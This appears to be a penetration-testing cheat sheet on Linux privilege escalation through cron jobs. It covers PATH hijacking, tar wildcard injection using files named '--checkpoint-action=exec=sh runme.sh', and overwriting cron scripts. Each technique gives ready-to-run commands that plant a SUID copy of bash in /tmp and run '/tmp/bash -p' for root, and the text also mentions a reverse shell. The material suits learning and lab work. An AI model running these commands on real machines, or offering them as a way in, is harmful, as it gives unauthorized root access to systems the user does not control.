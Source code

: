 ## Scheduled Task

#### Crons job & Systemd Timers overview

`cat /etc/crontab`

Check for task running every minute or 5 minutes etc.  
"*" across all means task is running every minutes.  
[PayLoadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

`systemctl list-timers --all`

* * *

#### Escalaion via cron paths

First see PATH and check which location is it checks first.  
Check if the task is present in the first location if not create a task in the same name which is having malicious code.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh` if [overwrite.sh](http://overwrite.sh) is a task.

Make [overwrite.sh](http://overwrite.sh) executable using `chmod +x overwrite.sh`

Wait for the code to execute.

then we can execute `/tmp/bash -p` this will excalate to root user.

* * *

#### Cron Wildcards

Check what the task is doing by using cat.

Check whether its using wild card *. Then we can do injection here.

For example:  
/usr/local/bin/compress.sh is task.

`cat /usr/local/bin/compress.sh` to check what its doing, suppose:

```sh
#!/bin/sh

cd /home/user
tar czf  /tmp/backup.tar.gz *
```

In the above example its making some backup and its using wildcard.
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`

Make runme.sh executable by `chmod +x runme.sh`

Then we can use some tar specified cammands,
`touch /home/user/--checkpoint=1`
`touch /home/user/--checkpoint-action=exec=sh\ runme.sh`

The above commands will display progress message for every 1 number. When hit this checkpoint do some action. This is because there is wildcard. So above commands will be like: 
`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh\runme.sh`

So running `/tmp/bash -p` will give as root.

***

#### Cron File Overwrites

Just like cron path but instead of putting file in first path we can overwirte existing file for local privileage escalation or reverse shell.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh`.

Then run `/tmp/bash` after one minute get to root.